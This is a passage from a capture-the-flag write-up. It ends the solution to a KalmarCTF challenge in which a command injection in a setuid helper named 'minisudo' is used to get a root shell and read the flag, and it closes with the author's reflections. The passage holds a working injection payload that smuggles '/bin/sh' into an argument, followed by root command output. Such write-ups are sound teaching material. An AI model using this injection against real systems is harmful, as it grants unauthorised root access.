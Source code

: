 So, there is no memory corruption in the program, rather a command injection, and we know how to reach it now. Time to try:
```
user@chall:/app$ ./minisudo tellmethesize "'; /bin/sh ; '"
./minisudo tellmethesize "'; /bin/sh ; '"
Password: K33pth15s3Cret
K33pth15s3Cret
Correct!
/usr/bin/wc: invalid zero-length file name
# id
id
uid=0(root) gid=1000(user) groups=1000(user)
# ls -la /root
ls -la /root
total 28
drwx------ 1 root root 4096 Mar 18 00:12 .
drwxr-xr-x 1 root root 4096 Mar 18 00:12 ..
-rw-r--r-- 1 root root 3106 Oct 15  2021 .bashrc
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
-r-------- 1 root root   55 Mar 18 00:02 flag.txt
# cat /root/flag.txt
cat /root/flag.txt
kalmar{probably_not_the_intended_use-case_for_ptrace?}
# 
```

An that's a flag!

## Conclusion

A very nice chall that made me write a very minimalistic debugger and learn how to use `ptrace`. Not completely sure that it strictly belongs to the `pwn` category, since there was no memory corruption in the binary, but it was quite fun to solve anyway, thanks!
